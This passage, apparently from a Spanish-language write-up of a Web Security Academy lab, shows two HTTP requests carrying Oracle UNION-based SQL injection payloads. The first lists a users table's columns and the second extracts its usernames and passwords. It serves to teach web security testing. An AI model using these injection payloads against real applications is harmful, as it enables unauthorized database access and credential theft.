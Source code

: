 ```
GET /filter?category='+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_MPGBNR'-- HTTP/2
Host: 0a76002004acf6bd82c6fb1900d600e1.web-security-academy.net
Cookie: session=4r7p479MteGfJHw186eSSaLBr06RDplw
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a76002004acf6bd82c6fb1900d600e1.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

La peticion previa responde asi:

<figure><img src="../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Y ahora finalizamos retornando los valores de toda la tabla con la siguiente consulta:

Utilizando los nombres de las columnas y de la tabla se crea el siguiente payload:

```
GET /filter?category='+UNION+SELECT+USERNAME_DDLRLR,+PASSWORD_KSLGEY+FROM+USERS_MPGBNR-- HTTP/2
Host: 0a76002004acf6bd82c6fb1900d600e1.web-security-academy.net
Cookie: session=4r7p479MteGfJHw186eSSaLBr06RDplw
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
```